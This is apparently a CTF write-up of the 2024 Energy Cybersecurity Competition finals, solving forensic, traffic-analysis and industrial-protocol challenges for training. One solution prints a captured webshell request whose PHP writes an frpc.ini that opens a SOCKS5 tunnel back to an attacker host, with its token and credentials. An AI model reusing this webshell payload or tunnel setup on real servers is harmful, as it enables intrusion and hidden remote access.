






# 2024年能源网络安全大赛个人决赛

2024 年 6 月 20 日以线下赛形式在江苏宜兴举办了 2024 年能源网络安全大赛团体决赛、个人决赛。

[关于2024年能源网络安全大赛团体决赛结果的公示](https://www.cers.org.cn/site/content/b99df959c78fe7974592fd2022032979.html)

赛题附件：[百度网盘](https://pan.baidu.com/s/1tMnVwV9gdGq08Qgt-jh-sg?pwd=id7k#list/path=%2FCTF%20Archive%2F%E8%83%BD%E6%BA%90%E7%BD%91%E7%BB%9C%E5%AE%89%E5%85%A8%E5%A4%A7%E8%B5%9B_2024_%E4%B8%AA%E4%BA%BA%E5%86%B3%E8%B5%9B )

## Misc

### 损坏的图片


> 黑客将系统锁死后，系统上多了一个损坏的图片，据安全专家评估，图片可能隐含了解密系统的密钥，找到损坏图片中隐藏的flag解锁系统吧。

知识点：`文件修复`、`JPG`、`Python Pickle`

将文件头 `89 50 4E 47` 修改为 `FF D8 ff E0`，得到 JPG 图片。


该图片为巨蟒集团（Monty Python）， 同时发现图片末尾有额外数据，开头为 `80 04`，疑似为 Python Pickle 反序列化数据。

```python
import pickle
import matplotlib.pyplot as plt

with open('data.pkl', 'rb') as f:
    data = pickle.load(f)
# print(data)
# 提取数据中的所有点
points = [(x, i) for i, sublist in enumerate(data) for x, _ in sublist]
# 调整Y轴的⽐例，翻转图像
x_vals, y_vals = zip(*points)
adjusted_y_vals = [-y for y in y_vals]

# 绘制数据点
plt.figure()
plt.scatter(x_vals, adjusted_y_vals, marker='X', color='b')
plt.show()
```

反序列化后得到的列表及如果如下：

```python
[[(42, 'X'), (43, 'X'), (44, 'X')], [(6, 'X'), (7, 'X'), (41, 'X'), (42, 'X')], [(4, 'X'), (5, 'X'), (11, 'X'), (41, 'X')], [(4, 'X'), (11, 'X'), (41, 'X'), (42, 'X')], [(0, 'X'), (2, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (10, 'X'), (11, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (21, 'X'), (29, 'X'), (30, 'X'), (31, 'X'), (32, 'X'), (33, 'X'), (40, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (59, 'X'), (60, 'X'), (61, 'X'), (62, 'X')], [(4, 'X'), (10, 'X'), (17, 'X'), (22, 'X'), (29, 'X'), (34, 'X'), (39, 'X'), (40, 'X'), (51, 'X'), (58, 'X'), (59, 'X'), (63, 'X')], [(4, 'X'), (10, 'X'), (17, 'X'), (22, 'X'), (29, 'X'), (30, 'X'), (33, 'X'), (34, 'X'), (40, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (58, 'X'), (59, 'X'), (60, 'X'), (61, 'X'), (62, 'X'), (63, 'X')], [(4, 'X'), (10, 'X'), (15, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (21, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (26, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (41, 'X'), (42, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (52, 'X'), (53, 'X'), (54, 'X')], [(4, 'X'), (10, 'X'), (11, 'X'), (12, 'X'), (13, 'X'), (14, 'X'), (15, 'X'), (33, 'X'), (41, 'X')], [(4, 'X'), (32, 'X'), (33, 'X'), (41, 'X')], [(26, 'X'), (27, 'X'), (32, 'X'), (41, 'X'), (42, 'X'), (43, 'X')], [(27, 'X'), (28, 'X'), (29, 'X'), (30, 'X'), (31, 'X'), (42, 'X'), (43, 'X')], [(29, 'X'), (30, 'X')], [], [(13, 'X'), (15, 'X')], [(1, 'X'), (2, 'X'), (3, 'X'), (4, 'X'), (12, 'X'), (13, 'X'), (15, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (26, 'X'), (28, 'X'), (34, 'X'), (39, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (52, 'X'), (53, 'X'), (61, 'X'), (62, 'X')], [(4, 'X'), (11, 'X'), (12, 'X'), (15, 'X'), (22, 'X'), (28, 'X'), (35, 'X'), (38, 'X'), (39, 'X'), (44, 'X'), (45, 'X'), (48, 'X'), (53, 'X'), (61, 'X')], [(0, 'X'), (1, 'X'), (2, 'X'), (3, 'X'), (10, 'X'), (11, 'X'), (12, 'X'), (13, 'X'), (15, 'X'), (16, 'X'), (17, 'X'), (22, 'X'), (28, 'X'), (35, 'X'), (36, 'X'), (37, 'X'), (38, 'X'), (43, 'X'), (44, 'X'), (47, 'X'), (48, 'X'), (53, 'X'), (54, 'X'), (60, 'X')], [(0, 'X'), (1, 'X'), (2, 'X'), (3, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (15, 'X'), (22, 'X'), (28, 'X'), (36, 'X'), (37, 'X'), (43, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (54, 'X'), (55, 'X'), (59, 'X')], [(15, 'X'), (22, 'X'), (28, 'X'), (36, 'X'), (48, 'X'), (58, 'X'), (59, 'X')], [(34, 'X'), (35, 'X'), (48, 'X'), (57, 'X'), (58, 'X')], [(32, 'X'), (47, 'X'), (56, 'X'), (57, 'X')], [(31, 'X'), (32, 'X'), (43, 'X'), (44, 'X'), (46, 'X'), (47, 'X'), (55, 'X'), (56, 'X')], [(30, 'X'), (45, 'X'), (54, 'X'), (55, 'X')], [(59, 'X'), (60, 'X'), (61, 'X'), (62, 'X')], [(50, 'X'), (62, 'X')], [(2, 'X'), (3, 'X'), (4, 'X'), (5, 'X'), (6, 'X'), (7, 'X'), (8, 'X'), (9, 'X'), (16, 'X'), (17, 'X'), (18, 'X'), (19, 'X'), (21, 'X'), (22, 'X'), (23, 'X'), (24, 'X'), (25, 'X'), (31, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (35, 'X'), (36, 'X'), (37, 'X'), (38, 'X'), (39, 'X'), (40, 'X'), (46, 'X'), (49, 'X'), (52, 'X'), (53, 'X'), (62, 'X')], [(7, 'X'), (8, 'X'), (22, 'X'), (23, 'X'), (38, 'X'), (39, 'X'), (47, 'X'), (48, 'X'), (49, 'X'), (51, 'X'), (52, 'X'), (61, 'X')], [(5, 'X'), (6, 'X'), (7, 'X'), (20, 'X'), (21, 'X'), (22, 'X'), (36, 'X'), (37, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (53, 'X'), (54, 'X'), (61, 'X'), (62, 'X'), (63, 'X'), (64, 'X'), (65, 'X'), (66, 'X')], [(4, 'X'), (5, 'X'), (18, 'X'), (19, 'X'), (20, 'X'), (32, 'X'), (33, 'X'), (34, 'X'), (35, 'X'), (46, 'X'), (47, 'X'), (48, 'X'), (49, 'X'), (50, 'X'), (51, 'X'), (61, 'X'), (62, 'X'), (63, 'X'), (64, 'X'), (65, 'X')], [(2, 'X'), (3, 'X'), (4, 'X'), (15, 'X'), (16, 'X'), (17, 'X'), (30, 'X'), (31, 'X'), (32, 'X'), (44, 'X'), (45, 'X'), (46, 'X'), (49, 'X'), (51, 'X'), (52, 'X'), (53, 'X'), (61, 'X')], [(1, 'X'), (2, 'X'), (15, 'X'), (29, 'X'), (30, 'X'), (49, 'X'), (61, 'X')], [(60, 'X'), (61, 'X')], [(57, 'X'), (58, 'X'), (59, 'X'), (60, 'X')]]
```



FLAG：`flag{2024nyjy777*}`

## Forensic

### win内存取证3



> 分析win内存镜像，电脑中有一张记录flag的图片，请找出来，并获得flag,flag格式为flag{xx}

知识点：`内存取证`、`文件提取`

[附件下载](attachments/Misc/demo.txt)

```bash
$ vol -f mem.raw windows.filescan > filescan
$ cat filescan | grep -i -E "jpg|jpeg|png|gif"
0x7db0fc10      \Users\ctf\Desktop\777.png
0x7dd33dd0      \Users\ctf\AppData\Roaming\Microsoft\Windows\Themes\TranscodedWallpaper.jpg
0x7fb21c40      \Windows\SysWOW64\pngfilt.dll
0x7fc5c6c0      \Users\Public\Pictures\Sample Pictures\Desert.jpg
0x7fdda170      \Windows\System32\pngfilt.dll
0x7fed75c0      \Users\Public\Pictures\Sample Pictures\Chrysanthemum.jpg
$ vol -f mem.raw windows.dumpfiles --physaddr 0x7db0fc10
```

FLAG：`flag{2shygsbnajwjji}`

### 代理流量


> 有一台Web应用服务器发现被攻击者获取了权限，并对内网做了扫描。请尝试分析攻击过程，并找到代理工具的回连地址及端口，提交地址端口，示意：10.10.10.10:8080，提交flag为flag{10.10.10.10:8080},flag格式flag{x}

知识点：`流量分析`、`webshell流量分析`

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

343 号包上传 `frpc.ini` 文件

```http
POST /1.php HTTP/1.1
Host: 192.168.2.197:8081
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Windows NT 6.1; rv:22.0) Gecko/20130405 Firefox/22.0
Content-Type: application/x-www-form-urlencoded
Content-Length: 1374
Connection: close

aaa=%40ini_set(%22display_errors%22%2C%20%220%22)%3B%40set_time_limit(0)%3Bfunction%20asenc(%24out)%7Breturn%20%24out%3B%7D%3Bfunction%20asoutput()%7B%24output%3Dob_get_contents()%3Bob_end_clean()%3Becho%20%2228%22.%22f72%22%3Becho%20%40asenc(%24output)%3Becho%20%22f486%22.%2211f4%22%3B%7Dob_start()%3Btry%7B%24f%3Dbase64_decode(substr(%24_POST%5B%22j68071301598f%22%5D%2C2))%3B%24c%3D%24_POST%5B%22xa5d606e67883a%22%5D%3B%24c%3Dstr_replace(%22%5Cr%22%2C%22%22%2C%24c)%3B%24c%3Dstr_replace(%22%5Cn%22%2C%22%22%2C%24c)%3B%24buf%3D%22%22%3Bfor(%24i%3D0%3B%24i%3Cstrlen(%24c)%3B%24i%2B%3D2)%24buf.%3Durldecode(%22%25%22.substr(%24c%2C%24i%2C2))%3Becho(%40fwrite(fopen(%24f%2C%22a%22)%2C%24buf)%3F%221%22%3A%220%22)%3B%3B%7Dcatch(Exception%20%24e)%7Becho%20%22ERROR%3A%2F%2F%22.%24e-%3EgetMessage()%3B%7D%3Basoutput()%3Bdie()%3B&j68071301598f=FBL3Zhci93d3cvaHRtbC9mcnBjLmluaQ%3D%3D&xa5d606e67883a=5B636F6D6D6F6E5D0A7365727665725F61646472203D203139322E3136382E3135372E3131310A7365727665725F706F7274203D20383838380A746F6B656E3D6659346533766372535941486A6A464B7A4B4B380A0A5B746573745F736F636B355D0A74797065203D207463700A72656D6F74655F706F7274203D383131310A706C7567696E203D20736F636B73350A706C7567696E5F75736572203D2050787059784642644E70370A706C7567696E5F706173737764203D2059454453756E70480A7573655F656E6372797074696F6E203D20747275650A7573655F636F6D7072657373696F6E203D20747275650A
```

十六进制解码得到 `frpc.ini` 文件内容：

```ini
[common]
server_addr = 192.168.157.111
server_port = 8888
token=fY4e3vcrSYAHjjFKzKK8

[test_sock5]
type = tcp
remote_port =8111
plugin = socks5
plugin_user = PxpYxFBdNp7
plugin_passwd = YEDSunpH
use_encryption = true
use_compression = true
```

FLAG：`flag{192.168.157.111:8888}`

### APT窃密事件溯源



> 某单位遭遇威胁组织攻击，威胁组织对攻陷的主机进行了信息收集并窃取机密信息，安防设备捕获到攻击流量（hack.pcap），结合提供的开源APT分析报告，研判发起本次攻击事件的APT组织窃取的文件。flag格式为flag{}

知识点：`流量分析`

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

FLAG：`flag{C:\Users\wdr\Desktop\test\888888888.txt}`

### 失窃的MP4文件



> 已知黑客入侵某内部系统后，使用自定义的协议格式回传窃取的高价值mp4文件，请针对目标流量还原被窃取文件，找到flag标识，格式：flag{XXXX_XXXX_XXXX_XXXX}

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

<!-- 如果为静态 flag，需写明 flag -->

FLAG：`flag{}`

### 寻找矿池地址



> 请分析服务器（root/Root@123)被挖矿的地址连接池，找到域名和端口，flag为flag{域名:端口},flag格式为flag{xxxx}

在线环境，无附件。

FLAG：`flag{www.baiiduu.com:3333}`

## ICS

### modbus


> 先运行服务器再运行客户端，产生流量。找到流量中的flag

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

<!-- 如果为静态 flag，需写明 flag -->

FLAG：`flag{sgcc_modbus_hack}`

### 104协议

> 题目描述

<!-- 如果题目有提示，应给出提示 -->
- 提示 1：
- 提示 2：

知识点：`流量分析`、`工控流量分析`、`IEC 60870-104协议`

解题步骤、关键截图、代码

```bash
tshark -r 104_2.pcapng -T fields -e "iec60870_asdu.ioa"
```

`ZmxhZ3syMDI0bnlhcWdmenNsfQ==`

<!-- 如果题目为静态flag，需给出flag -->
FLAG：`flag{2024nyaqgfzsl}`

### 这是一个秘密

<!-- 如果题目有提示，应给出提示 -->
- 提示 1：
- 提示 2：

知识点：`流量分析`、`工控流量分析`、`s7comm协议`

解题步骤、关键截图、代码

```bash

```

`YWx3YXlzZm9yd2FyZCEh`

<!-- 如果题目为静态flag，需给出flag -->
FLAG：`flag{alwaysforward!!}`

### 工控流量分析二


> 请你帮助小刘分析流量包，黑客在PLC中写入了flag。flag形如下：flag{xx}

知识点：`流量分析`、`工控流量分析`、`modbus协议`

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

```shell
tshark -r sample.pcap -Y "modbus.func_code == 16 and ip.dst == 192.168.4.80" -e "modbus.regnum16" -T fields
tshark -r sample.pcap -Y "modbus.func_code == 16 and ip.dst == 192.168.4.80" -e "modbus.regval_uint16" -T fields
```

导出后前面一些行删除掉。

```python
import struct

out1 = '''501,502,503,504,505,506,507,508,509,510,511,512,513,514,515,516,517,518,519,520,521,522,523,524,525,526,527,528,529,530,531,532,533,534,535,536,537,538,539,540,541,542,543,544,545,546,547,548,549,550,551,552,553,554,555,556,557,558,559,560,561,562,563,564,565,566,567,568,569,570,571,572,573,574,575,576,577,578,579,580,581,582,583,584,585,586,587,588,589,590,591,592,593,594,595,596,597,598,599,600
300,301,302,303,304,305,306,307,308,309,310,311,312,313,314,315,316,317,318,319,320,321,322,323,324,325,326,327,328,329,330,331,332,333,334,335,336,337,338,339,340,341,342,343,344,345,346,347,348,349
601,602,603,604,605,606,607,608,609,610,611,612,613,614,615,616,617,618,619,620,621,622,623,624,625,626,627,628,629,630,631,632,633,634,635,636,637,638,639,640,641,642,643,644,645,646,647,648,649,650
20,21,22,23,24,25,26,27,28,29,30
651,652,653,654,655,656,657,658,659,660,661,662,663,664,665,666,667,668,669,670,671,672,673,674,675,676,677,678,679,680,681,682,683,684,685,686,687,688,689,690,691,692,693,694,695,696,697,698,699,700,701,702,703,704,705,706,707,708,709,710,711,712,713,714,715,716,717,718,719,720,721,722,723,724,725,726,727,728,729,730
400,401,402,403,404,405,406,407,408,409,410
731,732,733,734,735,736,737,738,739,740,741
800,801,802,803,804,805,806,807,808,809,810,811,812,813,814,815,816,817,818,819,820,821,822,823,824,825,826,827,828,829,830,831,832,833,834,835,836,837,838,839,840,841,842,843,844,845,846,847,848,849,850,851,852,853,854,855,856,857,858,859,860,861,862,863,864,865,866,867,868,869,870,871,872,873,874,875,876,877,878,879,880,881,882,883,884,885,886,887,888,889,890,891,892,893,894,895,896,897,898,899
1020,1021,1022,1023,1024,1025,1026,1027,1028,1029,1030
950,951,952,953,954,955,956,957,958,959,960,961,962,963,964,965,966,967,968,969,970,971,972,973,974,975,976,977,978,979,980,981,982,983,984,985,986,987,988,989,990,991,992,993,994,995,996,997,998,999'''

out2 = '''35152,20039,3338,6666,0,13,18760,17490,0,202,0,21,2050,0,136,28646,1280,1,43337,17473,21624,40173,39361,28356,8204,17463,22015,65431,59649,2489,7907,3108,56940,43897,10006,6619,14467,16858,41909,62994,41606,44967,4880,65305,51531,5154,31113,16932,12113,35044,9482,37308,17441,57313,60529,7293,53338,7139,65139,13632,24398,11964,6379,15832,7641,16957,39379,28610,39611,18886,26159,36901,37015,23523,60088,50288,25863,63143,46015,4715,9009,3261,35387,32311,31246,54672,34766,25393,27052,42714,29672,57140,13552,61978,6631,49860,21387,19138,15580,19688
2022,14230,24407,51417,53367,43434,45988,56534,22242,16708,26256,3965,43630,27296,31279,58771,37677,18394,62888,15466,41572,59268,62539,18159,37076,1443,63116,9402,31914,10314,640,362,25418,19391,47604,42030,35157,12299,9799,39015,21976,25878,20462,37811,13614,12607,61846,49399,49268,47255
34703,38328,25916,15313,37803,26357,6463,37827,46004,12283,58818,21306,15272,38945,56841,36045,11178,13247,48014,32635,55718,38295,55334,6854,16077,9148,26104,22653,7350,63315,53160,32306,40793,32112,21847,191,30502,31458,3525,14898,50255,51672,33909,46723,55750,11579,20347,45572,25029,28961
21704,5525,6603,23280,2557,34653,62021,49159,53649,46083,586
22986,17646,9046,22688,42952,5094,52592,6008,28361,22549,58445,25671,24235,4032,3742,62769,26282,37687,33625,50386,47775,59075,58524,56196,50982,56404,59623,31234,6129,62130,47090,26678,14569,11513,38430,24104,18732,48310,39067,5949,9144,4594,20071,28403,50272,5835,52684,39510,15880,40327,24560,54406,44102,52980,52671,59758,62162,31914,30091,21070,16366,15858,45735,59187,38276,52608,51571,28501,40351,16327,52701,19208,35838,5138,34120,24226,4297,19220,8825,35138
31233,8421,33855,27650,21086,0,0,18757,20036,44610,24706
32256,14820,53603,31138,59844,0,0,18757,20036,44610,24706
35152,20039,3338,6666,0,13,18760,17490,0,255,65280,21,2050,0,11,34589,31488,1,10825,17473,21624,40173,22737,3779,8200,54437,65535,52206,41225,24840,10090,15290,35963,29190,3768,621,22107,27429,61789,48290,5112,18340,59393,18641,912,41479,8261,3904,35358,32788,15616,10618,82,62464,42216,328,53507,28792,35946,44519,41397,18151,62439,27708,61118,50752,9275,65306,27990,57633,10202,16091,29095,37839,59718,34717,27702,60284,707,21676,62201,38919,40270,42680,47608,10248,31631,41968,61956,4805,34833,5175,58028,38762,3252,10305,48471,3392,57731,20007
31233,8421,33855,27650,21086,0,0,18757,20036,44610,24706
8144,6781,47248,36128,20925,47799,34232,15712,41049,23513,12467,45137,35669,28152,49490,48267,48864,46474,35737,13595,6752,32302,38584,61744,33721,10990,4652,23242,52213,8821,12846,60357,29151,43765,12387,39897,47789,3491,53137,28899,14713,57945,7993,24831,63201,49280,33720,5769,47340,31152'''

out1 = out1.replace('\n', ',').split(',')
out2 = out2.replace('\n', ',').split(',')

lst = [(int(a), int(b)) for a, b in zip(out1, out2) if int(a) > 500]
lst.sort(key=lambda x: x[0])
print(lst)

f = open('a.png', 'wb')
for k, v in lst:
    bt = struct.pack(">H", v)
    f.write(bt)
f.close()
```


<!-- 如果为静态 flag，需写明 flag -->

FLAG：`flag{Welcome_To_thE_coMPEtition}`

### NYWL2024002



> 附件是一个PLC项目文件以及相关的截图，请分析里面的PLC程序，求MDO的值为多少时可使MD4的值为9498.563，flag为MD0的值，flag格式为flagt{xxx},例如MD0的值是123，那么flag就是flag{123}

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

<!-- 如果为静态 flag，需写明 flag -->

FLAG 为`flag{}`

### data-encry


> 编译文件，执行文件，获取flag,flag格式flag{xxx}

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

<!-- 如果为静态 flag，需写明 flag -->

`kqfl{xlhh-djx-qqar}`，使用 [CyberChef](https://gchq.github.io/CyberChef/#recipe=ROT13_Brute_Force(true,false,false,100,0,true,'flag')&input=a3FmbHt4bGhoLWRqeC1xcWFyfQ&ieol=CRLF) 的`ROT13_Brute_Force`模块爆破即可。

FLAG：`flag{sgcc-yes-llvm}`

### 能源管理后门查杀

> 能源管理系统Web应用框架被攻击者留下了后门，请定位分析后清理相关后门程序。

<!-- 如果题目有附件，提供附件下载 -->

[附件下载](attachments/Misc/demo.txt)

<!-- 如果为静态 flag，需写明 flag -->

FLAG 为`flag{}`

## 参考资料

- <https://github.com/i1ikey0u/CTF_2024NYXH_YS-JS/>
- <https://www.cnblogs.com/wgf4242/p/18259556>
